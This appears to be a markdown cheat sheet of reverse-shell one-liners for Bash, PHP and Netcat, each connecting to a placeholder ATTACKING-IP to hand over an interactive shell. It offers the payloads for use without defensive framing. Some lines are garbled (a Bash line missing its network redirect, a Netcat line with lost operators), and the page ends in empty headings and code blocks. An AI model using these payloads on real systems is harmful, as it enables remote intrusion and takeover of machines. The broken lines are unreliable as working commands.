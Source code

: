 # Bash Reverse Shells

```bash
exec /bin/bash 0&0 2>&0

```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

# PHP Reverse Shell

```php

php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

# Netcat Reverse Shell

```bash

nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
